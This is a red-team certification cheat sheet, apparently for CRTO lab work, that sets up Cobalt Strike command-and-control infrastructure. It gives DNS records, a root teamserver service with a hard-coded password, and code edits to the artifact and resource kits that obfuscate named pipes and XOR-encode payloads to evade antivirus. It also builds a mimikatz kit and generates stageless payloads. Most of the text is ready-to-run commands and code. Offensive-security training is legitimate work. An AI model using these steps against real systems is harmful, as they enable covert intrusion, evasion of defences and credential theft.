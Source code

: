# CRTO Infrastructure Cheat Sheet

1. Setup DNS records
2. Load Malleable C2 profile and change out https-certificate block (use nopsled.profile which is custom webbug.profile)
3. Setup teamserver.service enabled on boot
4. Create http, smb, dns, tcp, tcp-local listeners
5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
6. Modify bypass-pipe.c and patch.c, and build the artifact kit
7. Modify the template.x64.ps1 file and build the resource kit
8. Build the mimikatz kit
9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)
10. Generate all Windows stageless CS payloads


## 1. Set DNS records

@ A 3600 10.10.5.50
ns1 A 3600 10.10.5.50
pics A 3600 ns1.getwrecked.com

## 2. Load Malleable C2 profile

- Use nopsled.profile (custom webbug.profile)
- Change out the CN to match DNS in https-certificate

## 3. Setup Team Server as a Service

`sudo vim /etc/systemd/system/teamserver.service`

*include in teamserver.service:*
```[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/nopsled.profile

[Install]
WantedBy=multi-user.target
```

Setup the service to enable on boot after creating teamserver.service
`sudo systemctl daemon-reload`
`sudo systemctl status teamserver.service`
`sudo systemctl start teamserver.service`
`sudo systemctl enable teamserver.service`

## 4. Create http, smb, dns, tcp, tcp-local listeners

## 5. Modify the script_template.cna (changes rundll32.exe references to dllhost.exe)
`$template_path="C:\Tools\cobaltstrike\arsenal-kit\kits\artifact\script_template.cna"; (Get-Content -Path $template_path) -replace 'rundll32.exe', 'dllhost.exe' | Set-Content -Path $template_path`

## 6. Modify bypass-pipe.c and patch.c, and build the artifact kit

### bypass-pipe.c: Change the sprintf call on line 130 and remove the comments above
`sprintf(pipename, "%c%c%c%c%c%c%c%c%cnop\\sled", 92, 92, 46, 92, 112, 105, 112, 101, 92);`

### patch.c: Change for loops on lines 45 and around 115/120
```
for (x = 0; x < length; x++) {
    char* ptr = (char *)buffer + x;

    /* do something random */
    GetTickCount();

    *ptr = *ptr ^ key[x % 8];
}
```

### Build artifact kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact && ./build.sh pipe VirtualAlloc 310272 5 false false none /mnt/c/Tools/cobaltstrike/artifacts`

## 7. Modify the template.x64.ps1 file and build the resource kit

### Edit template.x64.ps1
```
for ($nops = 0; $nops -lt $v_code.Count; $nops++) {
	$v_code[$nops] = $v_code[$nops] -bxor 35
}
```

### Build resource kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource && ./build.sh /mnt/c/Tools/cobaltstrike/resource`

## 8. Build the mimikatz kit

### Setup mimikatz for CS
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz/ && ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz`

## 9. Load all the cna files (e.g., artifact.cna, resource.cna, mimikatz.cna)

## 10. Generate all Windows stageless CS payloads
